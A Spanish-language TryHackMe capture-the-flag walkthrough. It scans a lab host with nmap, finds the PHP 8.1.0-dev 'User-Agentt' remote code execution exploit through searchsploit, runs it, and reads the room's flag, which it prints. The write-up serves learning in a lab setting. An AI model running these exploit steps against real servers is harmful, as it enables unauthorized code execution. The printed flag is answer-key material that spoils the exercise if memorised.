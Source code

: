 Bienvenidos a otra sala de TryHackMe.. En este capitulo explotaremos una pagina web con servicio PHP,  y utilizaremos el comando "__find__" para leer nuestra flag sin necesidad de escalar privilegios.

# Recon
Para inciar nuestro reconocimiento, utilizaremos __nmap__ para escanear puertos abiertos y averiguar versiones del sistema. Ejecutaremos el siguiente comando : `nmap -sS -p- --open --min-rate=5000 -Pn -sV -n -vvv -oN nmap IPTARGET`

```ruby
Nmap scan report for TARGETIP
Host is up, received user-set (0.22s latency).
Scanned at 2023-03-30 18:58:52 EDT for 26s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 PHP cli server 5.5 or later (PHP 8.1.0-dev)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

# Research

Nuestro scan de nmap, nos muestra el puerto abierto 80 (http). Al navegar por internet, nos muestra un dashboard de administrador, siempre es positivo realizar una busqueda en toda la pagina web antes de proceder, cualquier tipo de enumeracion es bien recibida a la hora de buscar posibles vulnerabilidades. En este caso, utilizaremos nuestro scaneo de nmap para poder explotarlo de forma correcta.
 Nmap nos muestra la version del servicio, __PHP 8.1.0-dev__. Buscaremos un exploit que se adapte a la version, podremos utilizar "google" o en mi caso, utilizar __searchsploit__, un motor de busqueda de vulnerabildades que podremos obtener informacion y descargarlo.. otra buena opcion es utilizar __exploit-db__. Para buscar dentro de searchsploit, ejecutaremos el siguiente comando : `searchsploit PHP 8.1.0-dev` 

```ruby
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                                                                           | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                                                                        | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                                                                        | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                                             | php/webapps/49933.py  "ESTE EXPLOIT ES EL QUE TENDREMOS QUE UTILIZAR"
Plesk < 9.5.4 - Remote Command Execution                                                                                                                                        | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                                                                           | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                                                                           | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                                                                     | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                                                                               | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                                                                           | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                             | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                                                                    | php/webapps/46815.txt
```

## 
Tendremos un exploit #RCE(__Remote Code Execution__). Esta vulnerabilidad ocurre cuando un atacante puede ejecutar codigo en un sistema remoto de forma no autorizada.

Para descargar este exploit, deberemos ejecutar : `searchsploit -m php/webapps/49933.py`
Obtendremos nuestro exploit, y podremos ver que es un script en lenguaje python que al ejecutarlo nos pedira la direccion URL.

# Exploit

Para ejecutar el script de lenguaje python, tendremos que solicitarle a python que ejecute el script utilizando : `python3 49933.py`. Nos pedira que introduzcamos el sitio a explotar
http://IPTARGET, y obtendremos acceso al servicio asi de simple. Una vez dentro, nos daremos cuenta que no podremos movernos de directorio, pero podremos leer archivos y enumerar directorios utilizando `cat, ls` . 

Para reclamar nuestra flag, primero tendremos que bucarla dentro del sistema. Para esta accion ejecutaremos el comando __find__ y le pediremos que busque el archivo en todo el sistema con el nombre "flag.txt" `find / -type f -name flag.txt`

Nuestra flag se encuentra en el direcorio del sistema,  le echaremos un vistazo con __cat__ para leer la flag y completar la sala. `cat /flag.txt`

# Respuestas

#FLAG = flag{4127d0530abf16d6d23973e3df8dbecb}
